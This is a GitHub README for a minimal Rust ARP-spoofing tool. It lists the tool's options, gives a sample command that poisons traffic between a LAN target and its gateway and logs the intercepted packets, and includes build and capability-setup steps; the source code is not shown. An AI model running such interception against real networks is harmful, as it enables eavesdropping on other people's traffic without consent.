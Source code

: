 # arp-spoof


This is a minimal ARP-Spoofing tool written in **Rust language** using pcap.

This tool allows intercepting Ipv4 traffic between two hosts on the same network.
Typically, between one machine and the internet gateway.

Please note, this tool was created to get comfortable with Rust, so the code isn't necessarily optimal nor idiomatic.

**This tool is for educational purposes only.**

## Features:

* 1 to 1 route poisoning
* save intercepted traffic as pcap file
* automatic Ipv4 forwarding

# Usage
```
Usage:
    ./arp-spoof [OPTIONS]

Minimal ARP spoofing tool written in Rust.

optional arguments:
  -h,--help             show this help message and exit
  -i,--interface INTERFACE
                        interface name
  --target TARGET       target ipv4 address
  --gateway GATEWAY     gateway ipv4 address
  --log-traffic         logs all target traffic to `save.pcap`
  -n,--no-forward       leave `/proc/sys/net/ipv4/ip_forward` untouched
  -V,--version          show version
```
A typical invocation would look like this. The arguments are pretty self-describing.
```
# ./arp-spoof --interface eth0 --target 192.168.0.16 --gateway 192.168.0.1 --log-traffic
[*] Using device eth0 ...
 -> ip address: 192.168.0.100
 -> mac address: 95:8F:6F:17:36:71
 -> connection_status: Connected
[+] forwarding ipv4 traffic: true
[*] Resolving hosts (this can take a bit) ...
 -> found 7E:FA:8B:B2:F5:8A at 192.168.0.16
 -> found 7C:0B:B6:94:11:6B at 192.168.0.1
[*] Saving captured packets as save.pcap ...
[+] Poisoning traffic between 192.168.0.16 <==> 192.168.0.1
[*] Received: 274, dropped: 0, if_dropped: 0
[*] Received: 518, dropped: 0, if_dropped: 0
```
# Building

```
# cargo build --release
# ./target/release/arp-spoof --help
```
Tested with rust 1.68.0.


## Linux

On Arch based Linux, install `community/rust`, `community/cargo` and `core/libpcap`. If not running as root, you need to set capabilities like so: ```sudo setcap cap_net_raw,cap_net_admin=eip path/to/bin```

# TODO:

* implement `n` to `m` route poisoning
